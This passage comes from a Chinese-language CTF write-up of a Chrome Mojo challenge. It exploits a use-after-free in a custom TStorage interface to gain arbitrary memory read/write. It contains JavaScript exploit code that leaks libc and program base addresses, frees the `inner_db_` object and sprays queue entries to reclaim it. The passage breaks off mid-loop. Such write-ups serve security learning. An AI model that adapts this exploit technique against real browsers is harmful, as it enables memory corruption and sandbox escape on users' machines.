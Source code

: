 因为我们可控`inner_db_`对象，该对象中有`queue`对象，如果我们`uaf`控制该对象，通过伪造`inner_db_`中的`queue`对象中的数据结构，我们也可以实现任意地址读写。

具体的利用过程如下：

1. 利用先获取`glibc`以及程序基址
    
    ```js
       let tStoragePtr = new blink.mojom.TStoragePtr(); 
       Mojo.bindInterface(
           blink.mojom.TStorage.name,
           mojo.makeRequest(tStoragePtr).handle, 
       );
    
       // malloc innerdb
       tStoragePtr.init();
       // get TInstance ptr
       let tInstancePtr = (await tStoragePtr.createInstance()).instance;
    
       // leak addr
       let atoiAddr = (await tStoragePtr.getLibcAddress()).addr;
       let textAddr = (await tStoragePtr.getTextAddress()).addr;  
       let libcBaseAddr = BigInt(atoiAddr) - 0x47730n;
       let textBaseAddr = BigInt(textAddr) - 0x39b5e60n;
    
       console.log("[+]libc base addr: "+hex(libcBaseAddr));
       console.log("[+]text base addr: "+hex(textBaseAddr));
    ```
2. 触发漏洞，并利用`queue`队列占用该内存，占用该内存后，利用`innerdb-&gt;getInt`方法找到对应的被释放的对象：
    
    ```js
       // free the innerdb ptr by free tStoragePtr
       tStoragePtr.ptr.reset();
    
       // trying to occupy the innerdb memory by queue memeory
       for(let i=0; i&lt;0x5; i++) {
           for(let j=0; j&lt;78-10; j++) {
               // should push 0, which represent the innerdb's queue is null
               await sprayTIPtrArr[i].push(0x0n)
           };
           // can use getInt function to debug( check the memory layout )
           // await sprayTIPtrArr[0].getInt();
    
           for(let j=0; j&lt;78/2; j++) {
               await sprayTIPtrArr[i].pop();
           }
           for(let j=0; j&lt;93-78/2; j++) {
               await sprayTIPtrArr[i].push(0x0n);
           }
           // await sprayTIPtrArr[0].getInt();
    
           for(let j=0; j&lt;93/2; j++) {
               await sprayTIPtrArr[i].pop();
           }
           for(let j=0; j&lt;88-93/2; j++) {
               await sprayTIPtrArr[i].push(0x0n);
           }
           for(let j=0; j&lt;88/2; j++) {
               await sprayTIPtrArr[i].pop();
           }
           for(let j=0; j&lt;206-88/2-1; j++) {
               await sprayTIPtrArr[i].push(0x0n);
           }
           // await sprayTIPtrArr[0].getInt();
    